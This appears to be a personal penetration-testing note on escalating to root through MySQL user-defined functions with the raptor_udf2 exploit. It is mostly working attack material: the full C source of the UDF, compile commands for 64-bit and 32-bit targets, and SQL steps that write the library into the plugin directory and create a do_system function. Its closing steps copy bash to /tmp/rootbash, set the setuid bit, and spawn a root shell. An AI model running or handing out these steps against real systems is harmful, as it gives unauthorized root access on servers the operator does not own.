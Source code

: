 ```yaml
---
category: Uncategorized
tags: []
---
```

![[Pasted image 20211229223508.png | 1000]]

[https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)

```bash - kali
sudo apt update && sudo apt install default-libmysqlclient-dev
```

```bash - kali
mousepad raptor_udf2.c
```

**raptor_udf2.c**
```c - kali
#include <stdio.h>
#include <stdlib.h>
 
enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};
 
typedef struct st_udf_args {
        unsigned int arg_count; // number of arguments
        enum Item_result *arg_type; // pointer to item_result
        char **args; // pointer to arguments
        unsigned long *lengths; // length of string args
        char *maybe_null; // 1 for maybe_null args
} UDF_ARGS;
 
typedef struct st_udf_init {
        char maybe_null; // 1 if func can return NULL
        unsigned int decimals; // for real functions
        unsigned long max_length; // for string functions
        char *ptr; // free ptr for func data
        char const_item; // 0 if result is constant
} UDF_INIT;
 
int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
        if (args->arg_count != 1) {
                return(0);
        }
        system(args->args[0]);
        return(0);
}
 
char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
        return(0);
}
```

Transfer the above c file to target.

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

IF TARGET IS 64 bit version of debian, we need add -fPIC to the gcc command:

```bash - kali
gcc -g -c raptor_udf2.c -fPIC
```

```bash - kali
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

---
IF TARGET IS 32 bit, remember to add -m32:
```bash - kali
gcc -g -c raptor_udf2.c -fPIC -m32
```

```bash - kali
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc -m32
```
---
Transfer the files over the target.
[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Should have 3 files, like so:

![[Pasted image 20220401110417.png]]

Now log in locally:
```bash - kali
mysql -h localhost -u root -p
```

```sql - target
show databases;
```

```sql - target
use $DATABASE;
```

The first step in this process is to discover where this installation of MySQL stores its UDFs. 

```sql - target
show variables like 'plugin_dir';
```

![[Pasted image 20220401110825.png]]

In this case, the directory is **/usr/lib/mysql/plugin/**. We'll use this directory name in the steps that follow.

We must also determine whether the database has been misconfigured to allow insecure handling of files.

```sql - target
SHOW VARIABLES LIKE "secure_file_priv";
```

![[Pasted image 20220401110942.png]]

At this point, all elements are in place to exploit this misconfiguration and obtain a root shell.

==Pay attention to the directories below, and where your files are:==

==/tmp/Tools/ vs /tmp/ vs /var/www/==

```sql - target
create table foo(line blob);
```

```sql - target
insert into foo values(load_file('/<PATH_TO_FILE>/raptor_udf2.so'));
```

```sql - target
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
```

![[Pasted image 20220406222607.png]]

if the /usr/lib/mysql/plugin directory give you error, try: 

```sql - target
select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
```

```sql - target
create function do_system returns integer soname 'raptor_udf2.so';
```

```sql - target
select * from mysql.func;
```

| name | ret |  dl | type |
| ---| --- | --- | --- |  
| do_system | 2 |  raptor_udf2.so | function |

```sql - target
select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');
```

![[Pasted image 20211229224131.png | 1000]]

```sql - target
exit
```

```bash - target
/tmp/rootbash -p
```

![[Pasted image 20211229224227.png | 1000]]

